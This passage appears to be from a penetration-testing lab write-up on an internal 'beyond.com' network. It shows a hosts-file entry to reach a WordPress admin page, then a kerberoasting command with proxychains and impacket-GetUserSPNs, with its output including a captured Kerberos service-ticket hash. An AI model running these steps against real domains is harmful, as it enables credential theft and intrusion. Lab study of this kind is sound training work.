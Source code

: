 Attempting to browse to **http://127.0.0.1/wordpress/wp-admin** results in an _Unable to connect_ error due to name resolution for the internal server. Adding it to our **hosts** file will help here:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ cat /etc/hosts                         
127.0.0.1       localhost
127.0.1.1       kali
...
127.0.0.1    internalsrv1.beyond.com
# In my case it was:
# 172.16.6.241    internalsrv1.beyond.com
...
```
{% endcode %}

Now we can properly get to the Administrator login page of Wordpress on INTERNALSRV1. Trying our current collection of credentials fails to get us in as well as common passwords like **admin:admin**.

## Attacking an Internal Web Application

### Speak Kerberoast and Enter

Moving onto kerberoasting using our one set of valid credentials:

{% code overflow="wrap" %}
```bash
kali@kali:~/beyond$ proxychains -q impacket-GetUserSPNs -request -dc-ip 172.16.6.240 beyond.com/john
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName      Name     MemberOf  PasswordLastSet             LastLogon                   Delegation 
------------------------  -------  --------  --------------------------  --------------------------  ----------
http/internalsrv1.beyond.com  daniela            2022-09-29 04:17:20.062328  2022-10-05 03:59:48.376728             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$4c6c4600baa0ef09e40fde6130e3d770$49023c03dcf9a21ea5b943e179f843c575d8f54b1cd85ab12658364c23a46fa53b3db5f924a66b1b28143f6a357abea0cf89af42e08fc38d23b205a3e1b46aed9e181446fa7002def837df76ca5345e3277abaa86...
2e430c5a8f0235b45b66c5fe0c8b4ba16efc91586fc22c2c9c1d8d0434d4901d32665cceac1ab0cdcb89ae2c2d688307b9c5d361beba29b75827b058de5a5bba8e60af3562f935bd34feebad8e94d44c0aebc032a3661001541b4e30a20d380cac5047d2dafeb70e1ca3f9e507eb72a4c7
```
{% endcode %}

{% hint style="warning" %}
More troubles, if connection is refused immediately, try commenting out the **proxy\_dns** setting in **/etc/proxychains4.conf**
{% endhint %}
